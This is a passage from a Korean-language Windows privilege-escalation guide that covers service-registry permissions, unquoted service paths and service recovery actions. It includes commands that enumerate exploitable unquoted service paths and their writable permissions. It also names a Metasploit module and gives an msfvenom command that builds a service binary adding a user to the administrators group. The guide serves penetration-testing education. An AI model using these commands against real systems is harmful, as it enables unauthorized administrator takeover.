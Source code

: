 레지스트리에 대해 이 권한이 있으면 **이 레지스트리에서 하위 레지스트리를 생성할 수 있습니다**. Windows 서비스의 경우 이는 **임의의 코드를 실행하기에 충분합니다:**

{% content-ref url="appenddata-addsubdirectory-permission-over-service-registry.md" %}
[appenddata-addsubdirectory-permission-over-service-registry.md](appenddata-addsubdirectory-permission-over-service-registry.md)
{% endcontent-ref %}

### 인용되지 않은 서비스 경로

실행 파일의 경로가 따옴표 안에 없으면 Windows는 공백 이전의 모든 끝을 실행하려고 시도합니다.

예를 들어, 경로 _C:\Program Files\Some Folder\Service.exe_에 대해 Windows는 다음을 실행하려고 시도합니다:
```powershell
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```
모든 따옴표가 없는 서비스 경로를 나열하되, 기본 제공 Windows 서비스에 속하는 것은 제외합니다:
```powershell
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v '\"'  # Not only auto services

# Using PowerUp.ps1
Get-ServiceUnquoted -Verbose
```

```powershell
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
)
)
```

```powershell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
**이 취약점을 탐지하고 악용할 수 있습니다** metasploit를 사용하여: `exploit/windows/local/trusted\_service\_path` metasploit를 사용하여 서비스 바이너리를 수동으로 생성할 수 있습니다:
```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```
### Recovery Actions

Windows는 서비스가 실패할 경우 취할 작업을 사용자가 지정할 수 있도록 허용합니다. 이 기능은 바이너리를 가리키도록 구성할 수 있습니다. 이 바이너리가 교체 가능하다면, 권한 상승이 가능할 수 있습니다. 더 많은 세부정보는 [공식 문서](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753662\(v=ws.11\)?redirectedfrom=MSDN)에서 확인할 수 있습니다.

